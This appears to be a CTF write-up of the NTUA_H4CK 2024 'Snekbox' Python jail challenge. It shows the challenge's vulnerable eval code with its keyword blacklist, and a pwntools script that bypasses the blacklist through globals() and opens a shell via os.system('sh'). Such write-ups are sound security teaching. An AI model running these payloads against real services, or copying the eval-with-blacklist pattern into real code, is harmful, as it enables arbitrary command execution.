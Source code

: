# NTUA_H4CK 2024 Snekbox

```python
# unsafe (example of what not to do)
def unsafe_eval():
    inp = input("> ")
    eval(inp)

# 100% safe
BLACKLIST = ["builtins", "import", "=", "flag", ';', "print", "_", "open", "exec", "eval", "help", "br"]
def safe_eval():
    inp = input("> ")
    if any(banned in inp for banned in BLACKLIST) or any(ord(c) >= 128 for c in inp):
        print('bye')
        exit()
    eval(inp)

safe_eval()
```

Requirements:

1. No non-ascii characters
2. Blacklisted dangerous functions: Use `globals()[function_name]` to bypass

Attack script:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "snekbox.py"])
# list(globals[])[-3] is unsafe_eval
p.sendline(b"globals()[list(globals())[-3]]()")
# enter unsafe_eval
# get shell
p.sendline(b"__import__('os').system('sh')")
p.interactive()
```
